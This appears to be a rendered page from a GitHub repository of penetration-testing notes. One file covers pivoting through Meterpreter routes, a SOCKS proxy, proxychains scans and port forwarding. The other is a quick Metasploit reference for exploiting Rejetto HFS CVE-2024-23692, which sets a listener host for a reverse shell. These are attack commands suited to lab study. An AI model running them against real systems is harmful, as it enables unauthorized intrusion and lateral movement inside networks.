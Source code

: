 
**`pentesting-notes/02-Network/04-pivoting.md`**

# Pivoting & Tunnelling

meterpreter > run autoroute -s <INTERNAL/CIDR>
msf6 > use auxiliary/server/socks_proxy
set SRVPORT 9050
run

php-template

proxychains -q nmap -Pn -sT -p80 <INTERNAL_HOST>
curl -v http://127.0.0.1:<LOCAL_PORT>/ -H 'Host: <INTERNAL_FQDN>'
php-template

meterpreter > portfwd add -l <LOCAL_PORT> -p 80 -r <INTERNAL_HOST>

**`pentesting-notes/03-Web/01-rejetto_hfs_cve-2024-23692.md`**

# Rejetto HFS — CVE-2024-23692 (quick ref)

use windows/http/rejetto_hfs_rce_cve_2024_23692
set RHOSTS <TARGET>
set LHOST <KALI_IP>
set LPORT <LPORT>
run
